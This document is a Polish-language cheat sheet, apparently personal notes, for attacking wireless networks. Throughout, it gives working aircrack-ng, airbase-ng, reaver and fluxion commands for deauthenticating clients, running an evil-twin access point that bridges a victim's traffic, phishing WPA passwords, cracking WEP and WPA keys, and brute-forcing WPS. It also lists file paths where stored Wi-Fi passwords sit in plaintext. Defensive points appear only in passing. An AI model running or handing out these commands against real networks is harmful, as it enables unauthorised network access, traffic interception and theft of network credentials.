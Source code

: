 ### Do zainstalowania
* wireshark
* [aircrack-ng](https://www.aircrack-ng.org/)1
* [reaver, wash](http://tools.kali.org/wireless-attacks/reaver)
* [fluxion](https://github.com/deltaxflux/fluxion) - ma sporo zależności


### Podstawy
* budowa ramek 802.11
* protokół połączenia
* konfiguracja karty sieciowej
    ```
    wlp5s0/wlp5s0mon - interfejs bezprzewodowy
    enp2s0 - interfejs po kablu
    at0 - crated by airbase-ng

    # troche informacji
    ifconfig/iwconfig
    iwlist wlp5s0 channel
    ip link show wlp5s0
    iw reg get


    systemctl stop network
    killall wpa_supplicant
    killall dhclient

    ifconfig wlp5s0 down
    iwconfig wlp5s0 mode monitor
    ifconfig wlp5s0 up

    # lub
    airmon-ng check kill
    airmon-ng start wlp5s0
    ```


### Acess-Point scanning
```
#wszystkie AP w zasięgu
iwlist wlp5s0 s

# lub
airodump-ng  wlp5s0 <--essid xxx> <--channel 36> <--write dump_file>

# filtrowanie wireshak
wlan_mgt.ssid == "ESSID/BSSID"
wlan.bssid == mac
wlan.sa == mac

# lub Kismet
```


### deauth
```
aireplay-ng --deauth 0 -a <BSSID> -c <target MAC> wlp5s0
# lub
airdrop-ng -i wlp5s0 -r rule_file
```
* Management Frame Protection


### MITM
* zapamiętane sieci
    ```
    #lista zapamiętanych
    nmcli -p c

    # Na maszynach plaintextem
        Windows:
            xp - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WZCSVC\Parameters\Interfaces
            nowsze - c:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces
        NetworkManager: 
            fedora - /etc/sysconfig/network-scripts/keys-*
            debian/ubuntu - etc/NetworkManager/system-connections/
        wpa_supplicant:
            /etc/wpa_supplicant/wpa_supplicant.conf
    ```

* evil twin
    ```
    # znaleźć MAC ofiary, dane o połączonym AP 
    # wzmocnić kartę (max w Polsce: 20dBm)
        iwconfig wlp5s0 txpower 20
    # postawić nasz fałszywy AP
        airbase-ng -a <BSSID here> --essid <ESSID here> -c <channel here> wlp5s0
    # odłączyć nasz cel (albo wszystkich) od obecnego AP na kilka sekund
    # stworzyć bridge (połączenie z internetem dla ofiary)
        brctl addbr evil
        brctl addif evil enp2s0
        brctl addif evil at0
        ifconfig enp2s0 0.0.0.0 up 
        ifconfig at0 0.0.0.0 up
        ifconfig evil up
        dhclient evil & 
    ```

* fluxion, czyli hasła WPA via phishing
    ```
    git clone https://github.com/deltaxflux/fluxion
    ./Installer.sh
    ./fluxion
    ```


### WEP
* łamanie
    ```
    # odpal interfejs w trybie monitor
    # przetestuj
         aireplay-ng -c <channel> -e <essid> -a <target AP bssid>  wlp5s0mon
    # łap IV
        airodump-ng -c <channel> --bssid <target bssid> -w output wlp5s0mon
    # w osobnym terminalu połącz się z AP (żeby móc tworzyć IV)
         aireplay-ng -1 0 -e <essid> -a <target AP bssid> -h <our MAC> wlp5s0mon
    # rób jeszcze więcej IV via ARP request-replay
         aireplay-ng -3 -b <target AP bssid> -h <our MAC> wlp5s0mon
    # złam klucz bazując na IV
         aircrack-ng -b <target AP bssid> output*.cap
    ```

* łączenie z AP bez hasła
    `easside-ng`

* nawet lepsze ataki: patrz. wesside-ng

### WPA/WPA2
* tkiptun-ng, docelowo umożliwiający wstrzykiwanie pakietów (https://www.aircrack-ng.org/doku.php?id=tkiptun-ng), lepiej używać AES
* WPA(2) nie zapewnia 'forward secrecy', jeśli znasz hasło/PMK, deszyfrujesz cały ruch
    ```airdecap-ng -l -e <essid> -p <password> sniffed.pcap```
* łamanie słownikowe
    ```
    # automatycznie przechwyć wszystkie handshakes, dodatkowo połam znalezione WEPy ;p
        besside-ng -W -c <channel> -b <target AP bssid> wlp5s0mon
    # teraz wrzuć to na http://wpa.darkircop.org/index.php
    # albo użyj aircrack-ng ze słownikiem
        aircrack-ng -w slownik -b <target AP bssid> wpa.cap
    ```

* Wersja enterprise - bezpieczniejsza


### EAP-MD5 czy EAP-LEAP (złamane)
### RADIUS

### WPS
* Super zue
* łamanie
    ```
    # wykrycie WPS
        wash -i wlp5s0mon -s -C
    # teraz
        reaver -i wlp5s0mon -b <target AP bssid> -vv -d 0 --dh-small
    ```